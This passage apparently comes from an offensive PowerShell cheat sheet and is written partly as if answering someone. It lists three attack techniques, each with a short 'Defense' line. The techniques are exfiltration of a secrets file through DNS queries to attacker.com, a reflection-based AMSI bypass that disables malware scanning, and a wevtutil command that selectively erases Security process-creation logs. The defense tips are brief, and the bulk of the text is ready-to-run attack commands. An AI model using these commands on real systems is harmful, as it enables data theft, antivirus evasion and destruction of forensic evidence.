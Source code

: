 

3. DNS-Based C2 Communication

Exfiltrate Data via DNS Requests:

$data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\secrets.txt"))
Resolve-DnsName -Name "$data.attacker.com" -Type TXT

Purpose: Sends stolen data over DNS (harder to detect).

Defense: Monitor abnormal DNS queries.



4. AMSI Bypass Variations

Your file already contains AMSI bypasses, but here’s a subtle variation using a .NET reflection trick:

[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null, $null)

Purpose: Disables AMSI before running malicious code.

Defense: Enable Tamper Protection in Defender.


5. Anti-Forensics & Log Tampering

Selective Log Deletion (instead of clearing all logs):

wevtutil.exe cl Security /q:"*[System[(EventID=4688)]]"

Purpose: Deletes only process creation logs (Event ID 4688).

Defense: Forward logs to a SIEM before they are deleted.





